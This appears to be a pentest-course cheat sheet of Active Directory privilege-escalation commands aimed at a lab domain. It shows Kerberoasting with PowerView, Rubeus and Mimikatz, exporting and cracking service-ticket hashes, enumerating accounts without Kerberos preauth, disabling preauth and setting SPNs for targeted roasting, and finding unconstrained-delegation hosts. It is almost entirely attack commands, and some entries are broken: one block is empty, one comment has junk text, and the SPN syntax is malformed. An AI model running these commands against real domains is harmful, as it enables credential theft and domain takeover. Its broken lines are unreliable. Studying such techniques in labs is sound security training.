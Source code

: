 ## Privileges Escalation in AD


### Kerberoasting
```powershell
# Standard AD User. Get Domain Users SPN. Users that are for services
C:> . PowerView.ps1
C:> Get-DomainUser -SPN

# Using AD Module
C:> Get-ADUser -Filter {ServicePrincipalName ne ""$null ""} -Properties ServicePrincipalName
```
#### Using `Rubeus.exe`
```powershell
# Get kerberos stats
C:> Rubeus.exe /stats

# Use Rubeus to request a TGS for <user>
C:> Rubeus.exe kerberoast /user:<user> /simple /outfile:hashes.txt

# Accounts supporting only RC4 (Gives errors!)
C:> Rubeus.exe kerberoast /stats /rc4opsec
C:> Rubeus.exe kerberoast /user:<user> /simple /rc4opsec

# Kerberoast all possible accounts
C:> Rubeus.exe kerberoast /outfile:hashes.txt                  

# Crack with John
C:> john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
#### Using Mimikatz
```powershell
C:> Add-Type -AssemblyNAme System.IdentityModel

C:> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken 
    -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Dump account hashes to a `.kirbi` fileasd@service_asdasd
C:> . .\Invoke-Mimikatz.ps1
C:> Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack using `tgsrepcrack.py`
C:> python.exe .\tgsrepcrack.py .\<wordlist>.txt .\<exported_file_from_mimikatz>.kirbi
```
### Targeted Kerberoasting AS-REPs
##### Enumerating accounts with Kerberos Preauth disabled
```powershell
# PowerView
C:> Get-DomainUser -PreauthNotRequired -Verbose             
# AD Module
C:> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
##### Disable Kerberos Preauth
```powershell
C:> Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
C:> Get-DomainUser -PreauthNotRequired -Verbose    # Check
``` 
##### ASREPRoast : Request Encrypted AS-REP for Offline Brute Force
```powershell


```
### Targeted Kerberoasting Set SPN
With rights over a user, we can set a SPN to it, and then go for a AS-REPs attack.
```powershell
# Enumerate permissions for RDPUsers
C:> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Check if user already has a SPN
C:> Get-DomainUser -Identity supportuser | select serviceprincipalname

# Set SPN for the user
C:> Set-DomainObject -Identity support1user | Set @{serviceprincipalname='ops/whatever1'}
```

### Kerberos Delegation

#### Uncostrained Delegation
```powershell
# Find Server with Unconstraided Delegation Enabled
C:> . C:\AD\Tools\PowerView.ps1
C:> Get-DomainComputer -Unconstrained | select -ExpandProperty name
<host1>
<host_n>
```
- Requisite for elevation using this technique, is to compromise a user with Admin Rights on the host
